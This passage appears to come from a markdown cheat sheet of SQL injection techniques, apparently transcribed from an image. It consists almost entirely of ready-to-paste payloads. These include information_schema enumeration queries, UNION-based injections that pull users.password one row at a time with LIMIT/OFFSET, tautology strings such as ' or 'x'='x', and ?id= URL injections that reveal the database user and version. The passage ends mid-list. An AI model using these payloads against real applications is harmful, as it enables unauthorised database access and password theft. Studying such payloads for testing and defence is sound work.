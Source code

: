 * List columns

  ```text
  SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’
  ```

* List tables

  ```text
  SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’
  ```

* Exfiltrate the different rows of the table. First, find the number of rows in the table:

  ```text
  aa' UNION SELECT count(*), users.password FROM users; --
  ```

* Then select each row:

  ```text
  aa' UNION SELECT users.password, users.password FROM users LIMIT 1; --
  ```

  ```text
  aa' UNION SELECT users.password, users.password FROM users LIMIT 1 OFFSET 1; --
  ```

  ```text
  aa' UNION SELECT users.password, users.password FROM users LIMIT 1 OFFSET 2; --
  ```

* Exfiltrate the different rows of the table:

  ```text
  ' or 'x'='x' order by 1 desc --
  ' or 'x'='x' order by 2 desc --
  ...
  ```

## MySql in-band, union based SQLI exploitation

* Enumerate user

  ```text
  ?id=1 union select 1,2,3,4,user(),6,7,8,9
  ```

* Enumerate version

  ```text
  ?id=1 union select 1,2,3,4,version(),6,7,8,9
  ```

* Get all tables

  ```text
  ?=1 union select 1,2,3,4,table_name,6,7,8,9 from information_schema.tables
  ```

* Get all values from a specific column:
